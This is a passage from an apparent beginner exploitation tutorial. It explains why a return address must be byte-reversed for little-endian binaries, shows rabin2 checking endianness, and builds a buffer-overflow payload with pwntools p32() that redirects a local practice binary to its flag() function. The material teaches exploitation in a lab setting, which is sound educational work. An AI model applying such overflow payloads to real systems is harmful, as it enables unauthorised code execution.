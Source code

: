`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** (the byte with the largest value) at the smallest memory address, and this is how we sent them. Little-endian does the opposite ([for a reason](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format)), and most binaries you will come across are little-endian. As far as we're concerned, the byte is stored in *reverse order* in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```bash
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address (you can also remove the `pause()`)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```bash
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "Could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:
